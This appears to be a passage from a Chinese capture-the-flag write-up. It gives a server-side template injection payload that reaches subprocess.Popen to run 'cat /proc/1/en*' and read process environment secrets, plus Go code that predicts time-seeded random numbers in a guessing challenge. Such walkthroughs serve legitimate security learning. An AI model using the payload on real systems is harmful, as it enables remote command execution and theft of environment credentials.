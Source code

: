 
### 炼狱waf-S

本题思路利用subprocess.Popen来执行命令

payload：

```
{{[].__class__.__base__.__subclasses__()[351]('cat /proc/1/en*',shell=True,stdout=-1).communicate()[0].strip()}}
```

![image-20240415131007885](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240415131007885.png)

### gogogo

首先来到第一关，很明显的伪随机数，不过要猜是第几个，种子推测是时间为种子

![image-20240415131810987](https://gitee.com/fpointzero/imgforit/raw/master/img/image-20240415131810987.png)

本地测试代码，利用未来时间作为种子即可，然后对应时间提交。

```go
package main

import (
	"fmt"
	"math/rand"
)

func main() {
	rand.Seed(1713158260)
	// 生成一个随机数
	randomNumber1 := rand.Int()
	randomNumber2 := rand.Int()
	randomNumber3 := rand.Int()
	randomNumber4 := rand.Int()
	randomNumber5 := rand.Int()
	randomNumber6 := rand.Int()
	randomNumber7 := rand.Int() + randomNumber1 - randomNumber1 + randomNumber2 - randomNumber2 + randomNumber3 - randomNumber3 + randomNumber4 - randomNumber4 + randomNumber5 - randomNumber5 + randomNumber6 - randomNumber6
	// 输出生成的随机数
	fmt.Println("中奖号码为:", randomNumber1)
	fmt.Println("中奖号码为:", randomNumber2)
	fmt.Println("中奖号码为:", randomNumber3)
	fmt.Println("中奖号码为:", randomNumber4)
	fmt.Println("中奖号码为:", randomNumber5)
	fmt.Println("中奖号码为:", randomNumber6)
	fmt.Println("中奖号码为:", randomNumber7)

	//当前时间戳为:1712906207
	//中将号码为:5083385238485808331
}

```
